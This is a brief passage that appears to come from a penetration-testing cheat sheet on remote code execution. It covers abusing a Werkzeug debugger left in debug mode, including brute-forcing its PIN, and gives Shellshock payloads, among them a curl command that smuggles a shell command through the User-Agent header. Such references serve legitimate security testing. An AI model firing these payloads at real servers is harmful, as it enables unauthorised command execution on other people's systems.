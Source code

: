 ## RCE

**Werkzeug Debugger**

Find somewhere where user input can be supplied and submit the following string to cause an error:

```
strіng
```

If the target is running their application in debug mode you might be able to run commands. If you are running the target locally, you can probably brute-force the debugger PIN. The debugger PIN is always in the following format: `***-***-***`.

**Shellshock Bug**

```bash
() { :;}; echo vulnerable
```

```zsh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
